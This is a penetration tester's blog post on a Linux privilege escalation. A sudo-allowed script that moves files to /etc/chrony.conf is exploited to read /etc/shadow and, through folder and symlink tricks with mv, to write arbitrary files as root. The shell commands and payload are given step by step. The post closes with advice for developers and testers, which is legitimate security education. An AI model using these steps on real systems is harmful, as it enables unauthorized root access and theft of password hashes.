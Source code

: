 ```yaml
---
layout: post
title: File Move to Privilege Escalation
date: 2021-08-22
tags: linux filesystem privesc
---
```


This post covers a PrivEsc that was found involving overlooked Linux filesystem and `mv` features.

## Overview

I was trying to finish up a chain of exploitation with a Linux PrivEsc. I had a web exploit that allowed RCE through the `nginx` user.
The typical `linPEAS.sh` scipt was ran but there was nothing interesting except for a handful of sudo NOPASSWD bash scripts.
The bash scripts ranged in length and complexity. They all aimed to perform "safe" root operation from `nginx`.

## Analysis

The following was a script that I'll refer to as `script.sh` that ended up being interesting.

```sh
#!/bin/bash

if [ -e /etc/chrony.conf~ ] ; then rm -f /etc/chrony.conf~ || : ; fi
mv -f /etc/chrony.conf /etc/chrony.conf~
mv "${1}" /etc/chrony.conf
chmod --reference=/etc/chrony.conf~ /etc/chrony.conf
chown --reference=/etc/chrony.conf~ /etc/chrony.conf
```

The script moves an `nginx` provided file to `/etc/chrony.conf` and applies the same permissions as the original file, which are `root`-based.
After looking online, `chrony.conf` seems to configure system time. How could this be broken?

## Arbitrary File Read

At first, I thought I could do a race-condition that would allow to provide any permission for `chrony.conf`.
Although being a valid issue, this is not particularly beneficial. What could be done with system time control?

Building off this idea, I checked out the `chrony.conf` permissions more closely:

```
-rw-r--r-- root root chrony.conf
```

The `chrony.conf` was world readable. This prompted me to pass `/etc/shadow` and see that the file was now readable through `/etc/chrony.conf`.
Root arbitrary file read! Just got to argue that passwords are weak and crackable and I had a full chain of exploitation.

## Arbitrary File Write

Obviously, I was not satisfied. There must be a way to allow a root arbitrary file write. I was wondering what I could provide and I remembered:

"Everything is a file in Linux" - Linux 101.

What if I provide a folder, symlink, device, etc? I can name any of these to `chrony.conf` and the filesystem will behave as expected.
After testing with various combinations, I found I could break the first line with a non-empty folder.

```
mkdir /etc/chrony.conf~
touch /etc/chrony.conf~/pwn
rm -f /etc/chrony.conf~
rm: cannot remove '/etc/chrony.conf~': Is a directory
```

The second line could also be broken if there was a folder at the destination.

```
mkdir /etc/chrony.conf~
mkdir /etc/chrony.conf~/chrony.conf
mv /etc/chrony.conf /etc/chrony.conf~
mv: cannot overwrite directory '/etc/chrony.conf~/chrony.conf' with non-directory
```

With the two previous issues, I could essentially "block in place" `/etc/chrony.conf` during the script. I could make the file various Linux file types.
What if I set `/etc/chrony.conf` as a symlink to `/tmp`?

```
ln -s /tmp /etc/chrony.conf
touch ./pwn
mv "./pwn" /etc/chrony.conf
ls /tmp
```

Notice how that `/tmp/pwn` now exists. `mv` considers the operation as a move to a folder and keeps the name.
For this example, we targeted `/tmp` but we could easily target `/etc` or even overwrite the `script.sh`.

Therefore, we can get Root Arbitrary File Write + Root PrivEsc through:

1) Making a malicious `/pwn/chrony.conf` folder and moving it with `script.sh`.
2) Making a symlink to a target destination and moving it with `script.sh`.
3) Making a payload with the target file name and moving it with `script.sh`.
4) Profit.

This resulting payload is roughly following:

```
# 1
mkdir ./pwn
mkdir ./pwn/chrony.conf
./script.sh ./pwn/chrony.conf
# 2
ln -s /path/to/pwn_file ./pwn
./script.sh ./pwn
# 3
touch pwn_file
./script.sh ./pwn_file
# 4
ls /path/to
```

Note that this payload leads to "broken" system permissions because of the last two lines.
There is definitely a way to take advantage of those behaviors, I'll let you explore!

## Summary

Linux and `mv` can behave unpredictably at times.

For developers, make sure to validate user input files no matter the source.
Users will always end up willingly or unwillingly sending you input that you won't expect.

For pentesters, folders and symlinks can be interesting to send if you have a foothold in a machine.
Additionally, sometimes overlooked "basic" features can be the most dangerous.
